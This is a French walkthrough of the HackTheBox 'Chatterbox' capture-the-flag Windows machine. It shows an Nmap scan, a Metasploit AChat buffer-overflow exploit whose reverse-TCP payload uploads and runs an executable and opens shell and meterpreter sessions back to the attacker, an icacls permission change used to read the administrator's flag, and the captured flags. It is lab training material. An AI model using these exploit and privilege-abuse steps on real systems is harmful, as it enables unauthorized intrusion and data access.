 # Solution du CTF Chatterbox de HackTheBox

Le CTF *Chatterbox* de [Hack The Box](https://www.hackthebox.eu) est un autre CTF qui tourne sur un système Windows.  

Ce challenge a été quelque peu énervant (laborieux) à scanner en raison du lag de la machine mais une fois les ports ouverts trouvés (après de multiples essais et options de *Nmap*) on finit à parvenir à quelque chose.  

Chauffe Alfred !
----------------

```plain
Nmap scan report for 10.10.10.74
Host is up (0.024s latency).

PORT     STATE    SERVICE VERSION
80/tcp   filtered http
9255/tcp open     http    AChat chat system httpd
|_http-server-header: AChat
|_http-title: Site doesn't have a title.
9256/tcp open     achat   AChat chat system
```

On trouve facilement un exploit pour *Achat* parmi les modules *Metasploit*. Il aura seulement fallut trouver le bon payload pour passer le firewall / antivirus :  

```plain
msf exploit(windows/misc/achat_bof) > show options

Module options (exploit/windows/misc/achat_bof):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   RHOST  10.10.10.74      yes       The target address
   RPORT  9256             yes       The target port (UDP)

Payload options (windows/upexec/reverse_tcp_allports):

   Name      Current Setting             Required  Description
   ----      ---------------             --------  -----------
   EXITFUNC  process                     yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.14.199                yes       The listen address
   LPORT     51571                       yes       The starting port number to connect back on
   PEXEC     /home/devloop/jail/jre.exe  yes       Full path to the file to upload and execute

Exploit target:

   Id  Name
   --  ----
   0   Achat beta v0.150 / Windows XP SP3 / Windows 7 SP1

msf exploit(windows/misc/achat_bof) > exploit

[*] Started reverse TCP handler on 10.10.14.199:51571 
[*] Sending stage (398 bytes) to 10.10.10.74
[*] Uploading executable (73802 bytes)...
[*] Executing uploaded file...
[*] Sending stage (179779 bytes) to 10.10.10.74
[*] Command shell session 1 opened (10.10.14.199:51571 -> 10.10.10.74:49157) at 2018-05-04 11:19:44 +0200
[*] Meterpreter session 2 opened (10.10.14.199:7777 -> 10.10.10.74:49158) at 2018-05-04 11:19:44 +0200

msf exploit(windows/misc/achat_bof) > sessions -l

Active sessions
===============

  Id  Name  Type                     Information                     Connection
  --  ----  ----                     -----------                     ----------
  1         shell x86/windows                                        10.10.14.199:51571 -> 10.10.10.74:49157 (10.10.10.74)
  2         meterpreter x86/windows  CHATTERBOX\Alfred @ CHATTERBOX  10.10.14.199:7777 -> 10.10.10.74:49158 (10.10.10.74)

meterpreter > sysinfo
Computer        : CHATTERBOX
OS              : Windows 7 (Build 7601, Service Pack 1).
Architecture    : x86
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x86/windows
meterpreter > getuid
Server username: CHATTERBOX\Alfred

c:\users\Alfred>net users
net users

User accounts for \\CHATTERBOX

-------------------------------------------------------------------------------
Administrator            Alfred                   Guest                    
The command completed successfully.

c:\users\Alfred>net user Alfred
net user Alfred
User name                    Alfred
Full Name                    
Comment                      
User's comment               
Country code                 001 (United States)
Account active               Yes
Account expires              Never

Password last set            12/10/2017 10:18:08 AM
Password expires             Never
Password changeable          12/10/2017 10:18:08 AM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script                 
User profile                 
Home directory               
Last logon                   5/4/2018 5:15:23 AM

Logon hours allowed          All

Local Group Memberships      *Users                
Global Group memberships     *None                 
The command completed successfully.
```

Cet accès est bien sûr suffisant pour obtenir le flag de l'utilisateur :  

```plain
C:\Users\Alfred\Desktop>type user.txt
type user.txt
72290246dfaedb1e3e3ac9d6fb306334
```

Windows permissions 101
-----------------------

Ce qui est surprenant c'est qu'avec le compte *Alfred* on puisse aller jusqu'au bureau de l'administrateur. On est cependant bloqué au moment de récupérer le contenu de *root.txt* :  

```plain
c:\Users\Administrator\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 9034-6528

 Directory of c:\Users\Administrator\Desktop

12/10/2017  07:50 PM    <DIR>          .
12/10/2017  07:50 PM    <DIR>          ..
12/10/2017  07:50 PM                32 root.txt
               1 File(s)             32 bytes
               2 Dir(s)  18,498,449,408 bytes free

c:\Users\Administrator\Desktop>type root.txt
type root.txt
Access is denied.

c:\Users\Administrator\Desktop>icacls root.txt
icacls root.txt
root.txt CHATTERBOX\Administrator:(F)

Successfully processed 1 files; Failed processing 0 files
```

*Administrator* est le seul utilisateur à disposer de droits sur ce fichier, toutefois il s'avère qu'on dispose nous aussi du contrôle total (F) sur le dossier *Desktop* :  

```plain
C:\Users\Administrator\Desktop>icacls .
icacls .
. NT AUTHORITY\SYSTEM:(I)(OI)(CI)(F)
  CHATTERBOX\Administrator:(I)(OI)(CI)(F)
  BUILTIN\Administrators:(I)(OI)(CI)(F)
  CHATTERBOX\Alfred:(I)(OI)(CI)(F)

Successfully processed 1 files; Failed processing 0 files
```

On peut alors ajouter les permissions qui nous permettront de lire le fichier :  

```plain
c:\Users\Administrator\Desktop>icacls root.txt /grant Users:F
icacls root.txt /grant Users:F
processed file: root.txt
Successfully processed 1 files; Failed processing 0 files

c:\Users\Administrator\Desktop>type root.txt
type root.txt
a673d1b1fa95c276c5ef2aa13d9dcc7c
```


*Published June 17 2018 at 10:00*